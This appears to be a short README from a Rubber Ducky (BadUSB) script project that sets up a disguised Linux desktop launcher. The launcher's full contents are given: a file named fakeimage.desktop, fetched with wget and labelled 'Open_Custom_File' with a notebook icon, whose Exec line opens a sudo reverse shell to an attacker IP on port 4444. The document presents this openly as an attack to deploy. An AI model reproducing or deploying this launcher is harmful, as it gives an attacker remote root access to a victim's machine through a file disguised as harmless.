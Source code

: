 # Rubber-Ducky-Scripts
## Rubber-Ducky-Scripts
For this project you will need the following files<br> 
**fakeimage.desktop** (Save this file on a remote site or any accessible link - For this project we will use wget to pull this file into the location /usr/local/share/applications/_)

Contents of the file - Include details and save file as fakeimage.desktop <br>
**[Desktop Entry] <br>
Encoding=UTF-8 <br>
Name=Open_Custom_File <br>
Exec=sudo /bin/bash -i > /dev/tcp/192.168.145.146/4444 0<&1 2>&1 <br>
Terminal=true <br>
Type=Application <br>
Icon=notebook** <br>
Change IP Address to attacker machine
